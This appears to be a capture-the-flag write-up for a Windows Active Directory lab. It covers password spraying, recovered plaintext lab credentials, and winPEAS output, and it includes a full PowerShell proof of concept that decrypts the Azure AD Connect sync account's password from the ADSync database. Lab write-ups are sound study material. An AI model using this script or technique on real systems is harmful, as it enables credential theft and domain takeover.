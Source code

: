 # Information
- CTF Name: 
- CTF Level:
- CTF Description: 
- Date: 
- Platform: 
- Category: 

# Findings

## External
### Enumeration
![](https://i.imgur.com/yAADhUv.png)
![](https://i.imgur.com/jFz73qJ.png)
- The ldap Works
	- ![](https://i.imgur.com/Qlqzh5E.png)

- The RPC works too
	- ![](https://i.imgur.com/1yjW1Si.png)
![](https://i.imgur.com/Y5EmK4b.png)
### Gaining Access
- i dd all the enumeartion but i got only password spraing, When i try with some 100+ wordlist it was not working. so i tried to do with same username and password list.
![](https://i.imgur.com/YssGy2R.png)
- ` SABatchJobs : SABatchJobs `
## Internal
### Enumeration
![](https://i.imgur.com/pyH9mPm.png)
- ` mhope : 4n0therD4y@n0th3r$ `
- ![](https://i.imgur.com/ckwIxti.png)
- ![](https://i.imgur.com/Vq1HJqK.png)
![](https://i.imgur.com/6l5hfJu.png)
```powershell
ÉÍÍÍÍÍÍÍÍÍÍ¹ Cloud Credentials
È  https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#credentials-inside-files
    C:\Users\mhope\.azure\TokenCache.dat (Azure Token Cache)
    Accessed:1/3/2020 5:36:14 AM -- Size:7896

    C:\Users\mhope\.azure\AzureRMContext.json (Azure RM Context)
    Accessed:1/3/2020 5:35:57 AM -- Size:2794
```
### Gaining Access
![](https://i.imgur.com/bLfSqH9.png)
[[911. 🎯Active Directory Enumeration & Attacks]] - Azure AD Attack
```powershell
Function Get-ADConnectPassword{
	Write-Host "AD Connect Sync Credential Extract POC (@_xpn_)`n"
	$key_id = 1
	$instance_id = [GUID]"1852B527-DD4F-4ECF-B541-EFCCBFF29E31"
	$entropy = [GUID]"194EC2FC-F186-46CF-B44D-071EB61F49CD"
	
	$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList 	"Server=MONTEVERDE;Database=ADSync;Trusted_Connection=true"
	$client.Open()
	$cmd = $client.CreateCommand()
	$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
	$reader = $cmd.ExecuteReader()
	$reader.Read() | Out-Null
	$config = $reader.GetString(0)
	$crypted = $reader.GetString(1)
	$reader.Close()
	
	add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
	$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
	$km.LoadKeySet($entropy, $instance_id, $key_id)
	$key = $null
	$km.GetActiveCredentialKey([ref]$key)
	$key2 = $null
	$km.GetKey(1, [ref]$key2)
	$decrypted = $null
	$key2.DecryptBase64ToString($crypted, [ref]$decrypted)
	$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
	$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
	$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerXML}}
	
	Write-Host ("Domain: " + $domain.Domain)
	Write-Host ("Username: " + $username.Username)
	Write-Host ("Password: " + $password.Password)
}
```
![](https://i.imgur.com/vVGoQQq.png)

### Maintaining Access


# Random Notes